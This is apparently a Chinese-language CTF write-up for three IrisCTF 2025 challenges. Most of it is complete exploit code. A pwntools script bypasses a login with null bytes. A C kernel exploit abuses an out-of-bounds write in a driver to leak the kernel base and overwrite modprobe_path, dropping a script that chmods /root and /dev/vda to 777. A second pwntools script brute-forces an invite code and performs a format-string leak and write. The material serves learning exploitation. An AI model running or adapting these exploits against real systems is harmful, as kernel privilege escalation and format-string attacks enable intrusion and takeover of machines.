# 2025-01-04-IrisCTF2025

‍

## sqlate

‍

```c

int main(void) {
  
	......

    init_admin();
    login_anonymous();
	......
	do{
		......
        switch (c) {
          	......
            case '5': {
                printf("Registration is currently closed.\n\n");
                action_login();
                continue;
            }
           ......
            case '7': {
                if (!check_permissions(permission_root)) continue;
                action_sys();
                continue;
            }
			......
        }
    } while(true);
}

void action_sys() {
    system("/usr/bin/cat flag");
}


// 脆弱点
void action_login() {
    // Currently only admin login
    read_to_buffer("Password?");
    unsigned long length = strlen(line_buffer);
	// line_buffer 是我们的输入

    for (unsigned long i = 0; i < length && i < 512; i++) {
        if (line_buffer[i] != admin_password[i]) {
            printf("Wrong password!\n");
            return;
        }
    }

	// 上面输入 \x00\x00 可以使length 等于 0，可以直接跳过 for循环，来到这里
    strcpy(current_user.username, "admin");
    current_user.userId = 0;
    current_user.flags = 0xFFFFFFFF;
}
```

‍

‍

* exploit

```python
from pwn import *
# from ctypes import CDLL
# cdl = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
# imLZH1
s    = lambda   x : io.send(x)
sa   = lambda x,y : io.sendafter(x,y)
sl   = lambda   x : io.sendline(x)
sla  = lambda x,y : io.sendlineafter(x,y)
r    = lambda x   : io.recv(x)
ru   = lambda x   : io.recvuntil(x)
rl   = lambda     : io.recvline()
itr  = lambda     : io.interactive()
uu32 = lambda x   : u32(x.ljust(4,b'\x00'))
uu64 = lambda x   : u64(x.ljust(8,b'\x00'))
ls   = lambda x   : log.success(x)
lss  = lambda x   : ls('\033[1;31;40m%s -> 0x%x \033[0m' % (x, eval(x)))

attack = 'sqlate.chal.irisc.tf:10000'
binary = './vuln'

def start(argv=[], *a, **kw):
    if args.GDB:return gdb.debug(binary,gdbscript)
    if args.TAG:return remote(*args.TAG.split(':'))
    if args.REM:return remote(*attack.split(':'))
    return process([binary] + argv, *a, **kw)

context(binary = binary, log_level = 'debug',
terminal='tmux splitw -h -l 170'.split(' '))

libc = context.binary.libc
#elf  = ELF(binary)
#print(context.binary.libs)
#libc = ELF('./libc.so.6')

#import socks
#context.proxy = (socks.SOCKS5, '192.168.31.251', 10808)

gdbscript = '''
b *action_login
#continue
'''.format(**locals())

io = start([])


#gdb.attach(io,gdbscript)`Y
ru('> ')
sl('5')

#pause()
sl('\x00\x00') # 绕过登录

ru('> ')
sl('7') # cat flag


#pay = flat({
#},filler=b'\x00')

itr()

```

‍

‍

‍

## checksumz

### 分析

> 解决这道题的过程中我学到了很多东西

‍

```bash
$ modinfo ./artifacts/vuln.ko 
filename:       /opt/kernel_chall/2025-irisctf-Checksumz/./artifacts/vuln.ko
license:        GPL
author:         LambdaXCF <hello@lambda.blog>
description:    /dev/checksumz: a vulnerable kernel module
depends:    
retpoline:      Y
name:           vuln
vermagic:       6.10.10 SMP preempt mod_unload
```

‍

这个kernel 驱动大概有 4 个主要的调用

```c
lseek
write
read
ioctl
```

虽然是 `iter`​ 但是也可以通过 read 和 write 调用​​

```python
struct_name = '''owner fop_flags llseek read write read_iter write_iter iopoll iterate_shared poll unlocked_ioctl compat_ioctl mmap open flush release fsync fasync lock get_unmapped_area check_flags flock splice_write splice_read splice_eof setlease fallocate show_fdinfo mmap_capabilities copy_file_range remap_file_range fadvise uring_cmd uring_cmd_iopoll'''
struct_name = struct_name.split(' ')

fops_address = 0x600
ida_name.set_name(fops_address, 'fops')
for offset in range(0, len(struct_name)):
    next_ptr = ida_bytes.get_qword(fops_address + offset * 8)
    if(next_ptr):
        sname = 'device_' + struct_name[offset]
        ida_name.set_name(next_ptr, sname)
        print(hex(next_ptr),' --> ',sname)
```

​​

‍

* 驱动程序checksum_buffer结构体

```c
struct checksum_buffer {
    loff_t pos;
    char state[0x200];
    size_t size;
    size_t read;
    char* name;
    uint32_t digest;
};
```

* checksum 几个函数

```c

// 初始化 checksum_buffer 结构体
__int64 __fastcall device_flush(inode *inode, file *file)
{
  checksum_buf *v2; // rax
  __int64 v3; // rdi
  checksum_buf *v4; // rbx
  char *v5; // rax
  size_t size; // rdx

  v2 = (checksum_buf *)kmalloc_trace_noprof(kmalloc_caches[10], 0xDC0LL, 0x228LL);
  v3 = kmalloc_caches[10];
  file->private_data = v2;
  v4 = v2;
  v2->pos = 0LL;
  v2->size = 0x200LL;
  v2->read = 0LL;
  v5 = (char *)kmalloc_trace_noprof(v3, 0xDC0LL, 0x3E8LL);
  size = v4->size;
  *(_QWORD *)&v4->digest = 1LL;
  v4->name = v5;
  *(_QWORD *)v5 = 0x746C7561666564LL;
  if ( size )
    memset(v4->state, 0, size);
  return 0LL;
}                                               // init


ssize_t device_llseek(size_t *file, size_t user_buffer, size_t length, loff_t *offset)
{
  checksum_buf *v4; // rcx
  ssize_t result; // rax
  size_t size; // rdx
  unsigned __int64 v7; // rsi

  v4 = (checksum_buf *)file[0x19];
	......
  else
  {
	....
    v4->pos = (size_t *)user_buffer;            // 直接设置 pos 的值
    size = v4->size;
    result = user_buffer;
  }
  v7 = result;
  ...
  if ( v7 >= size )
  {
    result = size - 1;
    v4->pos = (size_t *)(size - 1); pos最大 只能为 0x1FF
  }
  return result;
}


ssize_t __fastcall device_write_iter(kiocb *iocb, iov_iter *from)
{
  __kernel_size_t iov_len; // rsi
  checksum_buf *private_data; // rbx
  ssize_t result; // rax
  __int64 v6; // rax
  __int64 v7; // rbp
  char *PTR; // r13
  size_t size; // rsi
  size_t *v10; // rdx

  iov_len = from->__ubuf_iovec.iov_len;
  private_data = (checksum_buf *)iocb->ki_filp->private_data;
  if ( !private_data )
    return -77LL;
  result = 0LL;
  if ( iov_len )
  {
    v6 = 0x10LL;
    if ( iov_len <= 0x10 )                      // 最大是 0x10 legnth
      v6 = iov_len;
    v7 = v6;
    PTR = &private_data->state[(unsigned __int64)private_data->pos]; // 漏洞点
    ......
    result = copy_from_iter(PTR, v7, from); 
    ......
  }
  return result;
}
```

‍

```c
struct checksum_buffer {
    loff_t pos;  // 是 0x1ff
    char state[0x200];
    size_t size=0x200; // MAX Size - 1
    size_t read;
    char* name;
    uint32_t digest;
};

PTR = &private_data->state[0x1ff];
copy_from_iter(PTR, v7, from); copy 0x10个字节，可以把 checksum_buffer->size 覆盖，后面由于没有 size的现在，可以 直接 set pos 任意大小
```

‍

​`0xfffffe00000002e4`​ 在kernel是固定的一个地址，里面有 vmlinux 的地址，可以把 name 指针覆盖成 它，然后再查看name 泄露出来，从而泄露 vmlinux kernel 的地址

‍

### exploit

‍

```c
#include "api.h"
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <sys/uio.h> //  struct iovec

int fd;

/*----------ioctl----------*/
void set_name(char *buf){
    ioctl(fd, 0xC0084000, buf);
}
void show_digest(char *buf){
    ioctl(fd, 0xC0084003, buf);
}
void set_size(size_t size){
    ioctl(fd, 0xC0044002, size);
}
void check(){
    ioctl(fd, 0x4001, 0);
}

/*----------llseek----------*/
add_pos(size_t size){
    syscall(8, fd, size, 1);
}
sub_pos(size_t size){
    syscall(8, fd, size, 2);
}
set_pos(size_t size){
    syscall(8, fd, size, 0);
}

/*----------write----------*/

write_iter(size_t *buf, size_t size){
    write(fd, buf, size);
}
read_iter(size_t *buf, size_t size){
    read(fd, buf, size);
}

int main() {


    system("echo -ne '#!/bin/sh\n/bin/chmod 777 /root /dev/vda\n' > /tmp/e1");
    system("chmod +x /tmp/e1");
    system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/e2");
    system("chmod +x /tmp/e2");

    fd = open("/dev/checksumz", 2);

    size_t buf[0x1000/8];

    set_pos(0x200);

    //read_iter(buf, 0);
    buf[0] = 0xFFFFFFFFFFFF;
    buf[1] = 0xFFFFFFFFFFFF;

    write_iter(buf, 0x10);

    set_pos(0x210);
    read_iter(buf, 8);

    size_t heap_addr = buf[0];
    printf("heap_addr = %p\n",heap_addr);


    size_t kernel_in = 0xfffffe00000002e4;
    size_t tmp = heap_addr - kernel_in;

    printf("offset = %p\n");


    buf[0] = 0xFFFFFFFFFFFFFFF;
    buf[1] = 0xFFFFFFFFFFFFFFF;
    set_pos(0x200);
    write_iter(buf, 8);


    set_pos(0x10000000000000000 - tmp);
    read_iter(buf, 0x10);


    size_t kernel_base = buf[1] - 0x1008e00;
    size_t modprobe = kernel_base + 0x1b3f100;

    printf("kernl_base = %p\n",kernel_base);
    printf("modprobe = %p\n", modprobe);


    int offset = (buf[0] >> 0x20) - 0x100320 + 8;

    printf("offset = %p\n",offset);


    size_t base_addr = heap_addr + offset;
    printf("base_addr = %p\n",base_addr);


    size_t modprobe_offset = modprobe - base_addr;
    printf("modprobe_offset = %p\n",(modprobe_offset));


    set_pos(modprobe_offset);

    write_iter("/tmp/e1\x00", 0x10);


    exit(0);


    return 0;
}
```

* 大概1/2 吧？

​​

‍

‍

### exploit利用过程分析

‍

将用户的数据 copy 到 kernel 里

​​

```c
size_t copy_from_iter(void *kernel_addr, size_t bytes, struct iov_iter *user_iov_iter);
struct iov_iter {
	u8 iter_type;
	bool nofault;
	bool data_source;  // 0x10 : stack addr
	size_t iov_offset; // 0x18 : length
	....
}
```

​​

copy 后 可以看到， size处已经被覆盖成 big number

​​

‍

‍

‍

* read 去读 泄露 heap_addr, 泄露heap 地址 后面后会用到

​​

‍

* rest size （有重新改了一下size， 应该无所谓）

​​

​​

​​

‍

‍

* 泄露地址 这里就需要利用 heap_addr 了

```c
size_t kernel_in = 0xfffffe00000002e4;
size_t tmp = heap_addr - kernel_in;
set_pos(0x10000000000000000 - tmp);
read_iter(buf, 0x10);

int offset = (buf[0] >> 0x20) - 0x100320 + 8;
// 泄露的 来的不一定是0x10032000000000，但是可以通过这个和泄露出来的值去做一个计算，就可以拿到 实际上 的 heap_addr的起始
// 从而 为后面寻找 modprobe_path 做更精确的计算
```

​​

‍

读数据

​​

​​

‍

已经把数据放到 stack 了

​​

‍

* 有了 kernel vmlinux 的地址 ，就可以计算 modprobe_path 的地址了 然后就直接覆盖

​​

​​

‍

‍

* pwn!

​​

‍

‍

## myfiles

‍

### 分析

* 漏洞点， 如何 v6 是一个负数

​​

‍

* 调试查看

​​

每次计算 0x10 长度的 hash , 已知前面的 文件 `invitecode.txt`​ 后面两位 爆破即可

​​

‍

‍

​​

‍

‍

‍

### exploit

‍

```python
from pwn import *
# from ctypes import CDLL
# cdl = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
# imLZH1
s    = lambda   x : io.send(x)
sa   = lambda x,y : io.sendafter(x,y)
sl   = lambda   x : io.sendline(x)
sla  = lambda x,y : io.sendlineafter(x,y)
r    = lambda x   : io.recv(x)
ru   = lambda x   : io.recvuntil(x)
rl   = lambda     : io.recvline()
itr  = lambda     : io.interactive()
uu32 = lambda x   : u32(x.ljust(4,b'\x00'))
uu64 = lambda x   : u64(x.ljust(8,b'\x00'))
ls   = lambda x   : log.success(x)
lss  = lambda x   : ls('\033[1;31;40m%s -> 0x%x \033[0m' % (x, eval(x)))

attack = 'myfiles.chal.irisc.tf:10001'
binary = './chal'

def start(argv=[], *a, **kw):
    if args.GDB:return gdb.debug(binary,gdbscript)
    if args.TAG:return remote(*args.TAG.split(':'))
    if args.REM:return remote(*attack.split(':'))
    return process([binary] + argv, *a, **kw)

context(binary = binary, log_level = 'debug',
terminal='tmux splitw -h -l 170'.split(' '))

libc = context.binary.libc
#elf  = ELF(binary)
#print(context.binary.libs)
#libc = ELF('./libc.so.6')

#import socks
#context.proxy = (socks.SOCKS5, '192.168.31.251', 10808)

gdbscript = '''
#continue
brva 0x023B7
brva 0x023F8
'''.format(**locals())

io = start([])
#pay = flat({
#},filler=b'\x00')


def listUser():
    ru('> ')
    sl('1')

def listFiles(uid):
    ru('> ')
    sl('2')
    ru('id? ')
    sl(str(uid))

def createUser(unm, pwd, code):
    ru('> ')
    sl('3')
    ru('code? ')
    sl(code)
    ru('? ')
    sl(unm)
    ru('? ')
    sl(pwd)


def uploadFile(uid, zip_hex):
    ru('> ')
    sl('4')
    ru('to? ')
    sl(str(uid))
    ru('file\n')
    sl(zip_hex)

def viewFile(uid, pwd,fid):
    ru('> ')
    sl('5')
    ru('? ')
    sl(str(uid))
    ru('? ')
    sl(pwd)
    ru('? ')
    sl(str(fid))


import zipfile
import io as io2

def gen_zip(text,fname='text.txt'):
    zip_buffer = io2.BytesIO()
    fd = zipfile.ZipFile(zip_buffer, 'w', compression=zipfile.ZIP_STORED)
    fd.writestr(fname, text)
    zip_raw_data = zip_buffer.getvalue()
    zip_buffer.close()
    print(zip_raw_data.hex())
    return zip_raw_data.hex()


def fnv1a_hash(data):
    v5 = 0xCBF29CE484222325
    for byte in data:
        v5 = (0x100000001B3 * (byte ^ v5)) & 0xFFFFFFFFFFFFFFFF  # 64-bit mask
    return v5

def gen_raw_zip(idx):
    pay = flat({
        0x00:p32(0x4034B50),
        0x08:p16(0x0), # is encryp?
        0x12:p32(0x10), # text size
        0x1A:p32(idx), # file name size 
    },filler=b'\x00')
    return pay.hex().ljust(1022,'4')


for i in range(1,0x20):
    uploadFile(15, gen_raw_zip(0x100000000-0x200*i-4-(2*(i-1))))

# gdb.attach(io,'brva 0x017FF')
listFiles(15)

hash_l = []


for i in range(31):
    ru('  16 ')
    hash_l.append( int(rl().decode().strip(),16))
print(hash_l)


base = b'invitecode.txt'
dic = []

for x in range(32,127):
    for y in range(32,127):
        pad = p8(x) + p8(y)
        dic.append(pad)


me_find = b''
for h in hash_l:
    for pad in dic:
        tmp = base + pad
        if fnv1a_hash(tmp) == h:
            me_find += pad
            base = tmp[2:]
            print(me_find)
            break

invitecode = me_find
createUser('hack1','pwd1',invitecode)

uploadFile(0, gen_zip('--%8$p--sssss'))

viewFile(0,'pwd1',0)
ru('--')
elf_base = int(ru('--')[:-2],16)
lss('elf_base')

pay  = b''
pay += b'A%15$hhn'
pay += p64(elf_base + 0x10)
uploadFile(0, gen_zip(pay))

viewFile(0,'pwd1',1)


ru('> ')
sl('6')
ru('? ')
sl('0')
ru('? ')
sl('pwd1')

g2 = '''
brva 0x00183D
'''

itr()
➜  myfiles 
```

‍

‍

​​
